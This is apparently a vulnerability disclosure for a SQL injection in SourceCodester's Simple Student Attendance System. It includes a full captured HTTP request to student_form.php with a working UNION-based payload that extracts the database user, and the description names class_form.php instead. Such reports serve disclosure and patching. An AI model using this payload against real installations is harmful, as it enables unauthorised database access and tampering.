 
**BUG_Author:**

Daydust

**Vendor:**

[SourceCodester](https://www.sourcecodester.com/php/17018/simple-student-attendance-system-using-php-and-mysql.html)

**Software:**

[SourceCodester](https://www.sourcecodester.com/php/17018/simple-student-attendance-system-using-php-and-mysql.html)

**Vulnerability File:**

/php-attendance/modals/student_form.php

**Description:**
Simple_Student_Attendance_Syste Exists SQL Injection Vulnerability on class_form.php Page

Attackers can use SQL injection to bypass the authentication and authorization mechanisms of web applications and retrieve the content of the entire database. SQLi can also be used to add, modify, and delete records in a database, thereby affecting data integrity. In appropriate cases, attackers can also use SQLi to execute operating system commands, which can then be used to launch further attacks.

access http://172.21.48.180/php-attendance/?page=student_list Go to the student management page, enable packet capture, and click the edit button of any course to obtain the following data packets

```http
POST /php-attendance/modals/student_form.php HTTP/1.1
Host: 172.21.48.180
Content-Length: 37
Accept: */*
X-Requested-With: XMLHttpRequest
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/119.0.0.0 Safari/537.36
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
Origin: http://172.21.48.180
Referer: http://172.21.48.180/php-attendance/?page=student_list
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8
Cookie: PHPSESSID=tpml2ej1cjqohlua4pf82lbn2l
Connection: close

id=-1' union select 1,2,user(),4,5,6#
